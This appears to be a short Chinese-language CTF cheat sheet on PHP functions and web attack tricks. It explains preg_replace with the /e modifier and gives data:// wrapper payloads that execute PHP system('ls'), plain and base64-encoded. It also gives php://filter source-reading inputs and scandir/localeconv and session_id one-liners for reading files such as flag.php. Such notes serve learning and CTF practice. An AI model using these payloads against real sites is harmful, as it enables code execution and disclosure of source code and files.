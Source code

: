 # 基本函数

## preg_replace

正则替换

preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    )

## **isset()** 

函数用于检测变量是否已设置并且非 NULL。

## **file_get_contents()** 

把整个文件读入一个字符串中。

#### **file_get_contents($text,'r')**

'r' 表示以只读模式打开文件

`$text` 是一个变量，它用于存储文件的路径或文件名。

在 `file_get_contents($text, 'r')` 中，`$text` 是一个参数，表示要打开和读取的文件的路径或名称。

## $function = @$_GET['f'];

从GET请求中获取 'f' 参数的值。 '@' 符号用于抑制错误消息，以防 'f' 未设置时出现错误。





# PHP伪协议

## data协议

常用格式：

data://text/plain,xxxx(要执行的php代码)

data://text/plain;base64,xxxx(base64编码后的数据)

例如：

?page=data://text/plain,
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=

?page=data://text/plain,<?php%20system("ls")?>

?text=data://text/plain,I have a dream 实现$text中有"I have a dream"

## filter伪协议

file=php://filter/convert.base64-encode/resource=next.php

# 常用的语句

**通过scandir 以扫描当前目录下的文件**

highlight_file(next(array_reverse(scandir(pos(localeconv())))));

**session_id传cookie**

highlight_file( session_id(session_start())); 

cookie:PHPSESSID=flag.php  